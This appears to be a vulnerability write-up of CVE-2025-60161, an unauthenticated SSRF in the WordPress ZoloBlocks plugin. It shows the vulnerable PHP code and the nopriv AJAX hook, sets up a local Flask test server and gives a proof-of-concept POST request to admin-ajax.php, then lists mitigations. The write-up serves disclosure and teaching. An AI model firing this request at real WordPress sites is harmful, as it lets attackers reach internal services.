

<!--more-->

## CVE & Basic Info

A Server-Side Request Forgery (SSRF) vulnerability in BdThemes ZoloBlocks allows an attacker to make forged requests from the server. This issue affects ZoloBlocks versions from an unspecified initial version up to 2.3.11.

* **CVE ID**: [CVE-2025-60161](https://www.cve.org/CVERecord?id=CVE-2025-60161)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.3.11
* **Patched Versions**: 2.3.12
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress ZoloBlocks Plugin](https://wordpress.org/plugins/zoloblocks/advanced/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **ZoloBlocks**: **2.3.11** (vulnerable) and **2.3.12** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect differences between the two versions.

## Analysis

### Patch diff

The vulnerability existed in the file `TemplatesV1.php`, however this file was removed in the patched release.


### Vulnerable Code

```php {title="TemplatesV1.php - v2.3.11" hl_lines=[12]}
public function demo_import() {
    // Check input parameter from POST
    if (!isset($_POST['json_file_url'])) {
        wp_send_json_error('No JSON file URL provided');
        return;
    }

    // Retrieve and sanitize the user-provided URL
    $json_file_url = sanitize_text_field(wp_unslash($_POST['json_file_url']));

    // Send an HTTP request to that URL
    $response = wp_remote_get($json_file_url, ['timeout' => 30]);

    // If there's an error when fetching data, return a JSON error
    if (is_wp_error($response)) {
        wp_send_json_error('Failed to fetch JSON data');
        return;
    }

    // Retrieve the response body and decode the JSON
    $body    = wp_remote_retrieve_body($response);
    $data    = json_decode($body, true);
    $content = $data['content'] ?? '';

    // Return a successful JSON response including the imported content
    wp_send_json_success([
        'status'   => 'success',
        'message'  => __('Pattern imported successfully!', 'zoloblocks'),
        'content'  => $content,
    ]);
}
```


The `demo_import()` function accepts a URL from the user → issues an HTTP request (`wp_remote_get`) to fetch JSON → decodes it and returns the result via `wp_send_json_success()`.
Because it does not validate or restrict the URL, it can be abused to cause **SSRF**.


The `demo_import()` function is registered as a callback for an action hook:

```php
add_action('wp_ajax_nopriv_zolo_demo_import', [$this, 'demo_import']);
```

This means:

* The `wp_ajax_nopriv_` hook is used for **unauthenticated users** (anonymous users).
* When a client sends an AJAX request to the endpoint `admin-ajax.php?action=zolo_demo_import`, WordPress will invoke the `demo_import()` function.

### Flow


graph TD
A["admin-ajax.php?action=zolo_demo_import"] --> B["wp_ajax_nopriv_zolo_demo_import"]
B --> C["demo_import()"]
C --> D["sanitize_text_field()"]
D --> E["wp_remote_get(json_file_url)"]
E --> F{"is_wp_error(response)?"}
F -- Yes --> G["wp_send_json_error()"]
F -- No --> H["json_decode(body) → extract URLs"]
H --> I["wp_send_json_success()"]


## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request with the URL pointing to the local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=zolo_demo_import&json_file_url=http://127.0.0.1:8001/metadata
```

**Result**:



## Conclusion

CVE-2025-60161 is an SSRF in `demo_import()` of ZoloBlocks (≤ 2.3.11) caused by accepting a user-supplied URL and calling `wp_remote_get()` without validation. The endpoint allows unauthenticated access (`wp_ajax_nopriv_...`). The issue has been patched in **2.3.12**.

## Key takeaways

* Root cause: not validating/whitelisting the URL before calling `wp_remote_get()`.
* Impact: sites running ZoloBlocks ≤ 2.3.11; an attacker can query internal services (SSRF).
* Quick mitigation: update to **2.3.12** or block the `zolo_demo_import` endpoint.
* Prevention: whitelist/validate URLs, limit egress, protect AJAX actions with nonces/permissions.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress ZoloBlocks Plugin <= 2.3.11 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/zoloblocks/vulnerability/wordpress-zoloblocks-plugin-2-3-9-server-side-request-forgery-ssrf-vulnerability?_s_id=cve)
